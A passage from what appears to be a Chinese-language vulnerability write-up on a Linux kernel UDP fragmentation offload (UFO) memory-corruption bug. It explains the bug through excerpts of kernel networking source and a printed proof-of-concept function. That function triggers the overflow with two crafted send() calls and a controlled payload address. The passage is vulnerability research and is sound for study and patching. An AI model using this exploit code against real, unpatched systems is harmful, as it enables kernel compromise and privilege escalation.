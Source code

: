**poc分析**：主要是两次send。第一次send，带上标记 `MSG_MORE` 告诉系统我们接下来还有数据要发送，此时走UFO路径。

```c
// poc
#define SHINFO_OFFSET 3164
void poc(unsigned long payload) {
	char buffer[4096];
	memset(&buffer[0], 0x42, 4096);
	init_skb_buffer(&buffer[SHINFO_OFFSET], payload);

	int s = socket(PF_INET, SOCK_DGRAM, 0);		// 1. 创建UDP socket。SOCK_DGRAM表示UDP

	struct sockaddr_in addr;
	memset(&addr, 0, sizeof(addr));
	addr.sin_family = AF_INET;
	addr.sin_port = htons(8000);
	addr.sin_addr.s_addr = htonl(INADDR_LOOPBACK);

	if (connect(s, (void*)&addr, sizeof(addr))) 
		exit(EXIT_FAILURE);

	int size = SHINFO_OFFSET + sizeof(struct skb_shared_info);
	int rv = send(s, buffer, size, MSG_MORE);	// 2.发送包，并用标志MSG_MORE告诉内核我们还会发送更多包

	int val = 1;
	rv = setsockopt(s, SOL_SOCKET, SO_NO_CHECK, &val, sizeof(val));	// 3.关闭UDP checksum

	send(s, buffer, 1, 0);						// 4.第2次发送non-UFO触发漏洞。其size为1

	close(s);
}
```

见 [__ip_append_data()](https://elixir.bootlin.com/linux/v4.12.6/source/net/ipv4/ip_output.c#L910) 源码分析中的`(5)`，如果要发送的是UDP数据包、系统支持UFO、且需要分片（length > mtu），则`send()`最终会进入 [ip_ufo_append_data()](https://elixir.bootlin.com/linux/v4.12.6/source/net/ipv4/ip_output.c#L855)。

```c
	if ((((length + (skb ? skb->len : fragheaderlen)) > mtu) ||
	     (skb && skb_is_gso(skb))) &&			// (5) 如果UDP包满足2个条件，一是发送的数据长度大于MTU，需要进行分片; 二是开启了UFO支持。
	    (sk->sk_protocol == IPPROTO_UDP) &&
	    (rt->dst.dev->features & NETIF_F_UFO) && !dst_xfrm(&rt->dst) &&
	    (sk->sk_type == SOCK_DGRAM) && !sk->sk_no_check_tx) {
		err = ip_ufo_append_data(sk, queue, getfrag, from, length,
					 hh_len, fragheaderlen, transhdrlen,
					 maxfraglen, flags);		// (6) 满足(5)则调用支持UFO机制的 ip_ufo_append_data()
```

#### 2.2 [ip_ufo_append_data()](https://elixir.bootlin.com/linux/v4.12.6/source/net/ipv4/ip_output.c#L855) 分析

```c
static inline int ip_ufo_append_data(struct sock *sk,
			struct sk_buff_head *queue,
			int getfrag(void *from, char *to, int offset, int len,
			       int odd, struct sk_buff *skb),
			void *from, int length, int hh_len, int fragheaderlen,
			int transhdrlen, int maxfraglen, unsigned int flags)
{
	struct sk_buff *skb;
	int err;

	/* There is support for UDP fragmentation offload by network
	 * device, so create one single skb packet containing complete
	 * udp datagram
```